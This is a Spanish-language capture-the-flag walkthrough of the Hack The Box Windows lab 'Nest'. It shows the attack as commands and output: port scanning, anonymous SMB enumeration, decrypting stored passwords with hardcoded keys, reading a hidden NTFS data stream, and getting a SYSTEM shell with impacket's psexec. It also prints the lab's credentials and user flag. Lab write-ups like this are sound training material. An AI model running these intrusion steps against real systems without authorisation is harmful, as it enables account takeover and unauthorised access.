



Hack The Box - Nest

Contenido
| Nombre | Nest |
|---|---|
| OS | Windows |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.178 |
| Maker | VbScrub |
MASSCAN & NMAP
Escaneo de puertos tcp/udp y servicios con masscan y nmap, encontramos el puerto samba (445) y el puerto 2386 abiertos.
Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-01-29 04:56:39 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 4386/tcp on 10.10.10.178
Discovered open port 445/tcp on 10.10.10.178
# Nmap 7.80 scan initiated Tue Jan 28 22:23:24 2020 as: nmap -p- --min-rate 1000 -sV -sC -o nmap_scan 10.10.10.178
Nmap scan report for 10.10.10.178
Host is up (0.34s latency).
Not shown: 65533 filtered ports
PORT STATE SERVICE VERSION
445/tcp open microsoft-ds?
4386/tcp open unknown
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
| Reporting Service V1.2
| FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions:
| Reporting Service V1.2
| Unrecognised command
| Help:
| Reporting Service V1.2
| This service allows users to run queries against databases using the legacy HQK format
| AVAILABLE COMMANDS ---
| LIST
| SETDIR <Directory_Name>
| RUNQUERY <Query_ID>
| DEBUG <Password>
|_ HELP <Command>
... [snip] ...
Host script results:
|_clock-skew: 1m15s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2020-01-29T04:29:38
|_ start_date: 2020-01-29T03:11:05
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 28 22:29:02 2020 -- 1 IP address (1 host up) scanned in 338.05 seconds
SMBCLIENT
Listamos los SHARENAMES de la maquina, vemos que existe Data, Secure$ y Users, en los cuales tenemos acceso.
root@aoiri:~/htb/nest# smbclient -L 10.10.10.178
Enter WORKGROUP\root's password:
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
Data Disk
IPC$ IPC Remote IPC
Secure$ Disk
Users Disk
SMB1 disabled -- no workgroup available
Utilizamos el SHARENAME Data con un usuario ‘anonimo’ y sin contraseña para enumerar los archivos, encontramos dentro de Shared dos archivos de texto.
root@aoiri:~/htb/nest# smbclient \\\\10.10.10.178\\Data
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Wed Aug 7 16:53:46 2019
.. D 0 Wed Aug 7 16:53:46 2019
IT D 0 Wed Aug 7 16:58:07 2019
Production D 0 Mon Aug 5 15:53:38 2019
Reports D 0 Mon Aug 5 15:53:44 2019
Shared D 0 Wed Aug 7 13:07:51 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \> cd IT
smb: \IT\> dir
NT_STATUS_ACCESS_DENIED listing \IT\*
smb: \IT\> cd ..
smb: \> cd Production
dsmb: \Production\> dir
NT_STATUS_ACCESS_DENIED listing \Production\*
smb: \Production\> cd ..
smb: \> cd Reports
smb: \Reports\> dir
NT_STATUS_ACCESS_DENIED listing \Reports\*
smb: \Reports\> cd ..
smb: \> cd Shared
dsmb: \Shared\> dir
. D 0 Wed Aug 7 13:07:51 2019
.. D 0 Wed Aug 7 13:07:51 2019
Maintenance D 0 Wed Aug 7 13:07:32 2019
Templates D 0 Wed Aug 7 13:08:07 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \Shared\> cd Maintenance
smb: \Shared\Maintenance\> dir
. D 0 Wed Aug 7 13:07:32 2019
.. D 0 Wed Aug 7 13:07:32 2019
Maintenance Alerts.txt A 48 Mon Aug 5 17:01:44 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \Shared\Maintenance\> get "Maintenance Alerts.txt"
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Shared\Maintenance\> cd ..\Templates
smb: \Shared\Templates\> dir
. D 0 Wed Aug 7 13:08:07 2019
.. D 0 Wed Aug 7 13:08:07 2019
HR D 0 Wed Aug 7 13:08:01 2019
Marketing D 0 Wed Aug 7 13:08:06 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \Shared\Templates\> dir HR
HR D 0 Wed Aug 7 13:08:01 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \Shared\Templates\> cd HR
smb: \Shared\Templates\HR\> dir
. D 0 Wed Aug 7 13:08:01 2019
.. D 0 Wed Aug 7 13:08:01 2019
Welcome Email.txt A 425 Wed Aug 7 16:55:36 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \Shared\Templates\HR\> get 'Welcome Email.txt'
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \Shared\Templates\HR\'Welcome
smb: \Shared\Templates\HR\> get "Welcome Email.txt"
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (0.6 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Shared\Templates\HR\> cd ..\Marketing
smb: \Shared\Templates\Marketing\> dir
. D 0 Wed Aug 7 13:08:06 2019
.. D 0 Wed Aug 7 13:08:06 2019
10485247 blocks of size 4096. 6449704 blocks available
smb: \Shared\Templates\Marketing\>
Los archivos que encontramos son archivos de texto que contienen notas, en una de ellas encontramos las credenciales de uno de los usuarios de la maquina.
Maintenance Alerts.txt:
There is currently no scheduled maintenance work
Welcome Email.txt:
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>
You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>
If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.
Username: TempUser
Password: welcome2019
Thank you
HR
USER - C.Smith
Utilizamos las credenciales para enumerar los SHARENAME que estan disponibles en la maquina, en un directorio encontramos un archivo XML RU_config.xml el cual contiene credenciales especificamente de C.Smith.
\\\\10.10.10.178\\Data
smb: \IT\Configs\> cd "RU Scanner"
smb: \IT\Configs\RU Scanner\> dir
. D 0 Wed Aug 7 14:01:13 2019
.. D 0 Wed Aug 7 14:01:13 2019
RU_config.xml A 270 Thu Aug 8 13:49:37 2019
10485247 blocks of size 4096. 6449668 blocks available
smb: \IT\Configs\RU Scanner\> get RU_config.xml
getting file \IT\Configs\RU Scanner\RU_config.xml of size 270 as RU_config.xml (0.2 KiloBytes/sec) (average 3.4 KiloBytes/sec)
RU_config.xml:
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<Port>389</Port>
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
Tambien encontramos un proyecto que lleva el nombre de RU, para encontrar el directorio de Carl, enumeramos el SHARENAME Data en el cual encontramos un archivo xml en donde se describe un “archivo temporal” en \Secure$\IT\Carl\Temp.txt el cual no existe.
smb: \IT\Configs\NotepadPlusPlus\> dir
. D 0 Wed Aug 7 13:31:37 2019
.. D 0 Wed Aug 7 13:31:37 2019
config.xml A 6451 Wed Aug 7 17:01:25 2019
shortcuts.xml A 2108 Wed Aug 7 13:30:27 2019
10485247 blocks of size 4096. 6449680 blocks available
smb: \IT\Configs\NotepadPlusPlus\> get config.xml
getting file \IT\Configs\NotepadPlusPlus\config.xml of size 6451 as config.xml (7.7 KiloBytes/sec) (average 7.7 KiloBytes/sec)
smb: \IT\Configs\NotepadPlusPlus\> exit
root@aoiri:~/htb/nest# tail config.xml
<Find name="redeem on" />
<Find name="192" />
<Replace name="C_addEvent" />
</FindHistory>
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
<File filename="C:\windows\System32\drivers\etc\hosts" />
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
<File filename="C:\Users\C.Smith\Desktop\todo.txt" />
</History>
</NotepadPlus>
root@aoiri:~/htb/nest#
Dicho Directorio nos llevo a encontrar el Proyecto RU.
smb: \IT\Carl\VB Projects\WIP\> dir
. D 0 Tue Aug 6 08:47:41 2019
.. D 0 Tue Aug 6 08:47:41 2019
RU D 0 Fri Aug 9 09:36:45 2019
10485247 blocks of size 4096. 6449639 blocks available
smb: \IT\Carl\VB Projects\WIP\> mask ""
smb: \IT\Carl\VB Projects\WIP\> recurse ON
smb: \IT\Carl\VB Projects\WIP\> prompt OFF
smb: \IT\Carl\VB Projects\WIP\> mget *
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\ConfigFile.vb of size 772 as ConfigFile.vb (2.2 KiloBytes/sec) (average 2.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Module1.vb of size 279 as Module1.vb (0.8 KiloBytes/sec) (average 1.5 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.Designer.vb of size 441 as Application.Designer.vb (1.2 KiloBytes/sec) (average 1.4 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.myapp of size 481 as Application.myapp (1.5 KiloBytes/sec) (average 1.4 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\AssemblyInfo.vb of size 1163 as AssemblyInfo.vb (1.9 KiloBytes/sec) (average 1.6 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.Designer.vb of size 2776 as Resources.Designer.vb (7.8 KiloBytes/sec) (average 2.5 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.resx of size 5612 as Resources.resx (9.3 KiloBytes/sec) (average 3.9 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Settings.Designer.vb of size 2989 as Settings.Designer.vb (8.6 KiloBytes/sec) (average 4.4 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Settings.settings of size 279 as Settings.settings (0.8 KiloBytes/sec) (average 4.1 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj of size 4828 as RU Scanner.vbproj (13.3 KiloBytes/sec) (average 4.9 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj.user of size 143 as RU Scanner.vbproj.user (0.3 KiloBytes/sec) (average 4.4 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\SsoIntegration.vb of size 133 as SsoIntegration.vb (0.4 KiloBytes/sec) (average 4.1 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Utils.vb of size 4888 as Utils.vb (7.5 KiloBytes/sec) (average 4.5 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner.sln of size 871 as RUScanner.sln (2.3 KiloBytes/sec) (average 4.4 KiloBytes/sec)
Descargamos el proyecto, analizamos el codigo y vemos que es un proyecto que encripta una contraseña o una string desde un archivo de XML y tambien lo desencripta. Modificamos y ejecutamos el proyecto con el archivo RU_config.xml para obtener la contraseña de C.Smith.
Funcion DecryptString:
Console.WriteLine("Decrypted Text: " +Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256))
Threading.Thread.Sleep(50000)
Credenciales:
C.Smit:xRxRxPANCAK3SxRxRx

Utilizamos la contraseña en SAMBA (Users) y logramos leer nuestra flag user.txt.
root@aoiri:~/htb/nest/tmp# smbclient \\\\10.10.10.178\\Users -U C.Smith
Enter WORKGROUP\C.Smith's password:
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Sat Jan 25 17:04:21 2020
.. D 0 Sat Jan 25 17:04:21 2020
Administrator D 0 Fri Aug 9 09:08:23 2019
C.Smith D 0 Sun Jan 26 01:21:44 2020
L.Frost D 0 Thu Aug 8 11:03:01 2019
R.Thompson D 0 Thu Aug 8 11:02:50 2019
TempUser D 0 Wed Aug 7 16:55:56 2019
10485247 blocks of size 4096. 6449275 blocks available
smb: \> cd C.Smith
smb: \C.Smith\> dir
. D 0 Sun Jan 26 01:21:44 2020
.. D 0 Sun Jan 26 01:21:44 2020
HQK Reporting D 0 Thu Aug 8 17:06:17 2019
user.txt A 32 Thu Aug 8 17:05:24 2019
10485247 blocks of size 4096. 6449275 blocks available
smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 32 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\> exit
root@aoiri:~/htb/nest/tmp# cat user.txt
cf71b25404be5d84fd827e05f426e987
root@aoiri:~/htb/nest/tmp#

PRIVILEGE ESCALATION
Dentro de la carpeta principal de C.Smith encontramos dos archivos el primero parecia estar vacio Debug Mode Password.txt y el segundo HqkLdap.exe un ejecutable. Al obtener más informacion de este archivo encontramos que tiene Alternative Data Streams como en la maquina Dropzone de HackTheBox, obtenemos el archivo y encontramos lo que parece ser una contraseña.
root@aoiri:~/htb# smbclient \\\\10.10.10.178\\Users -U C.Smith #xRxRxPANCAK3SxRxRx
Enter WORKGROUP\C.Smith's password:
Try "help" to get a list of possible commands.
smb: \> dir
. D 0 Sat Jan 25 17:04:21 2020
.. D 0 Sat Jan 25 17:04:21 2020
Administrator D 0 Fri Aug 9 09:08:23 2019
C.Smith D 0 Sun Jan 26 01:21:44 2020
L.Frost D 0 Thu Aug 8 11:03:01 2019
R.Thompson D 0 Thu Aug 8 11:02:50 2019
TempUser D 0 Wed Aug 7 16:55:56 2019
10485247 blocks of size 4096. 6449700 blocks available
smb: \> cd "C.Smith\HQK Reporting\"
smb: \C.Smith\HQK Reporting\> dir
. D 0 Thu Aug 8 17:06:17 2019
.. D 0 Thu Aug 8 17:06:17 2019
AD Integration Module D 0 Fri Aug 9 06:18:42 2019
Debug Mode Password.txt A 0 Thu Aug 8 17:08:17 2019
HQK_Config_Backup.xml A 249 Thu Aug 8 17:09:05 2019
10485247 blocks of size 4096. 6449700 blocks available
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time: Thu Aug 8 05:06:12 PM 2019 CST
access_time: Thu Aug 8 05:06:12 PM 2019 CST
write_time: Thu Aug 8 05:08:17 PM 2019 CST
change_time: Thu Aug 8 05:08:17 PM 2019 CST
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password:$DATA of size 15 as Debug Mode Password.txt:Password:$DATA (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\> exit
root@aoiri:~/htb# cat Debug\ Mode\ Password.txt\:Password\:\$DATA
WBQ201953D8w
root@aoiri:~/htb#
HQK Reporting Service V1.2 - Puerto 4386
En el segundo puerto utilizamos telnet para conectarnos, y por lo que parece es un servicio en el cual podemos ejecutar ciertos comandos.
root@aoiri:~/htb/nest# rlwrap telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.
HQK Reporting Service V1.2
>HELP
This service allows users to run queries against databases using the legacy HQK format
--- AVAILABLE COMMANDS ---
LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
>
Enumeramos los querys que existen en el servicio y por lo que parece el servicio utiliza carpetas como directorio y ejecuta los querys (archivos) que existen el directorio, por lo que nos podemos mover a traves de C:\ como si fuera una consola pero con distintos comandos.
Uno de los comandos interesante es el DEBUG ya que al utilizar este comando junto con la contraseña, tenemos nuevos comandos los cuales podemos ejecutar.
>DEBUG WBQ201953D8w
Debug mode enabled. Use the HELP command to view additional commands that are now available
>HELP
This service allows users to run queries against databases using the legacy HQK format
--- AVAILABLE COMMANDS ---
LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>
>SETDIR ..
Current directory set to HQK
>LIST
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
QUERY FILES IN CURRENT DIRECTORY
[DIR] ALL QUERIES
[DIR] LDAP
[DIR] Logs
[1] HqkSvc.exe
[2] HqkSvc.InstallState
[3] HQK_Config.xml
Current Directory: HQK
>SHOWQUERY 3
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<Port>4386</Port>
<DebugPassword>WBQ201953D8w</DebugPassword>
<QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
>
Dentro de los directorios encontramos la contraseña del usuario Administrator.
Current Directory: HQK
>SETDIR LDAP
Current directory set to LDAP
>LIST
Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command
QUERY FILES IN CURRENT DIRECTORY
[1] HqkLdap.exe
[2] Ldap.conf
Current Directory: LDAP
>SHOWQUERY 2
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
>
DNSPY - HqkLdap.exe
Utilizamos DNSPY para desensamblar el archivo ejecutable que encontramos, al analizar el codigo vemos que utiliza la misma encriptacion que el proyecto ‘RU Scanner’ con los mismos parametros.

Utilizamos el projecto ‘RU Scanner’ con los parametros de encriptacion pasando la contraseña de administrador.
Console.Write("Decrypted: "+Decrypt("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=", "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256))
Threading.Thread.Sleep(50000)
VB: 
Credenciales:
Administrator:XtH4nkS4Pl4y1nGX
PSEXEC
Utilizamos psexec.py de impacket para obtener nuestra shell y nuestra flag root.txt.

root@aoiri:~/htb/nest# /root/tools/impacket/examples/psexec.py 'Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178'
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file GHkDSZLH.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service QTBl on 10.10.10.178.....
[*] Starting service QTBl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami
nt authority\system
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
6594c2e[ ... ]94b878c41
C:\Windows\system32>